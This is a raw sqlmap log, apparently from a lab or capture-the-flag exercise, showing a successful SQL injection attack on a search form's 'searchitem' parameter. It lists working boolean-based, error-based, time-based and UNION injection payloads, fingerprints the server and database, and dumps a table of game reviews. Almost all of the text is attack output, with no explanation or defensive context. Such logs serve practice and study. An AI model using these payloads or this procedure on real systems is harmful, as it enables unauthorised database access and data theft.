 [07:56:07] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[07:56:07] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[07:56:07] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[07:56:07] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[07:56:07] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[07:56:07] [INFO] target URL appears to have 3 columns in query
[07:56:07] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=hitman%' AND 6695=6695#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=hitman%' AND GTID_SUBSET(CONCAT(0x7162626271,(SELECT (ELT(1997=1997,1))),0x71717a6b71),1997) AND 'QcVF%'='QcVF

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=hitman%' AND (SELECT 5010 FROM (SELECT(SLEEP(5)))Oexe) AND 'dRYU%'='dRYU

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=hitman%' UNION ALL SELECT NULL,CONCAT(0x7162626271,0x7a47596361476466636b425a6c526f4548436c48736c4577476a654a6f4372576566544b736a734f,0x71717a6b71),NULL#
---
[07:58:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[07:58:50] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[07:58:50] [INFO] fetching current database
[07:58:50] [INFO] fetching tables for database: 'db'
[07:58:50] [INFO] fetching columns for table 'post' in database 'db'
[07:58:50] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |